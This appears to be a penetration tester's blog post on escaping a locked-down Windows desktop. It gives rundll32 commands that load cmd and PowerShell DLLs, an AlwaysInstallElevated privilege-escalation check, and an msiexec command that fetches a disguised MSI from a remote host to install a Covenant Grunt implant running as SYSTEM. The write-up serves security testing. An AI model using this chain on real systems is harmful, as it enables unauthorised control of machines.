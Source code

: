 ```yaml
---
layout: post
title: "Windows desktop breakout examples"
tags: Windows bypass SRP
---
```


When I come across a locked down Windows desktop I usually go through a process of trying to click everything see where I can write to and what I can execute etc. Then attempt most of the techniques used from this great github repo [UltimateAppLockerByPassList] [UltimateAppLockerByPassList].


When I can't run cmd or powershell the two examples below using rundll32 have worked many times in the past.

Using cmd.dll taken from [Didier Stevens] [Didier-Stevens].

`rundll32 shell32.dll,Control_RunDLL C:\location\of\reactos\cmd.dll`

Using PowerShll.dll taken from [PowerShll.dll] [PowerShll.dll] 

`rundll32 PowerShll.dll,main -i` 

Usually the next step is to elevate privileges and my current go to is running [SharpUp] [SharpUp]. 

`SharpUp audit`

![SharpUp output]({{site.baseurl}}/assets/img/2021-03-09/SharpUpAudit.png)


This shows that AlwaysInstallElevated registry keys are present. This can be checked manually via the commands below 

```
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated 
```

![Reg query]({{site.baseurl}}/assets/img/2021-03-09/AlwaysInstallElevatedregquery.png)

Now we have an attack vector we can create a windows installer package file. This can be done many ways but for this blog I am going to demonstrate the use of adding a Covenant Grunt binary as a custom action inside Visual Studio.  

Opening visual studio and start by creating a new project and selecting the setup wizard template. Change any project properties as necessary i.e target platform, author name. Add a new file to the project and import the Grunt binary. Then add a custom action to ensure the binary is executed on installation and change any custom action properties. 

![Visual Studio MSI]({{site.baseurl}}/assets/img/2021-03-09/GeneratingMSI.png)

Once you have compiled the project and transferred to target but clicking on the msi just gives an error message saying blocked becuase of security restriction policy.

![Visual Studio MSI]({{site.baseurl}}/assets/img/2021-03-09/MSI-clickblocked.png)

We can run it and get logs information to see what is happening but as suspected the software restriction policy is blocking the installation.  
`msiexec /q /i MSIprogram.msi /L*V! msilog.log`


It is possible to host the file remotely and to run an msi file which has been renamed to .png as shown [here] [msiexec].

`msiexec /q /i http://192.168.159.1/SRPbypass.png`

After running this a grunt running as SYSTEM should now be returned! 

![Grunts]({{site.baseurl}}/assets/img/2021-03-09/Grunts.png)

### Links & Resources

* <https://gracefulsecurity.com/windows-desktop-breakout/>
* <https://www.trustedsec.com/blog/kioskpos-breakout-keys-in-windows/>
* <https://www.pentestpartners.com/security-blog/breaking-out-of-citrix-and-other-restricted-desktop-environments/>
* <https://github.com/FuzzySecurity/DefCon24>
* <https://github.com/cobbr/Covenant>


[UltimateAppLockerByPassList]: https://github.com/api0cradle/UltimateAppLockerByPassList
[Didier-Stevens]: https://blog.didierstevens.com/2010/02/04/cmd-dll/
[PowerShll.dll]: https://github.com/p3nt4/PowerShdll
[SharpUp]: https://github.com/GhostPack/SharpUp
[msiexec]:  https://github.com/api0cradle/UltimateAppLockerByPassList/blob/e8d71e9894fee6d31a50842af9481dcff80f4a40/md/Msiexec.exe.md